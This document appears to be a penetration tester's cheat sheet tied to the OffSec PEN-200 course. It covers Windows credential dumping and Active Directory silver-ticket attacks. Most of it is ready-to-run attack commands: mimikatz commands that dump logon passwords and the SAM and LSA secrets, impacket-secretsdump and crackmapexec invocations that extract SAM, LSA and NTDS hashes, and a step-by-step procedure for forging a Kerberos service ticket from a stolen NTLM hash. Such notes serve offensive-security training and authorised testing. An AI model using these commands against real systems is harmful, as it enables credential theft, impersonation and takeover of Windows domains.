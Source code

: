 
### Secret Dumping 
```
.\mimikatz.exe "privilege::debug" "log mimikatz_passwords.txt" "sekurlsa::logonpasswords" "lsadump::sam" "lsadump::lsa /patch" "exit"

impacket-secretsdump <user>@<ip>

crackmapexec smb <ip> -u <user> -p <password> --sam / --lsa / --ntds
```

### Silver Tickets
Is there an interesting service running such as an HTTP or SMB share that can't be acessed?
https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/attacking-active-directory-authentication/performing-attacks-on-active-directory-authentication/silver-tickets
```
privilege::debug

#Grab NTLM hash of service account
sekurlsa::logonpasswords

#Grab SID of your user.
whoami /user

#Generate ticket
kerberos::golden /sid:<id> /domain:<domin> /ptt /target:<ip/dnsname> /service:<protocol eg. http /smb> /rc4:<ntlm_of_service> /user:<our_adminuser>



```

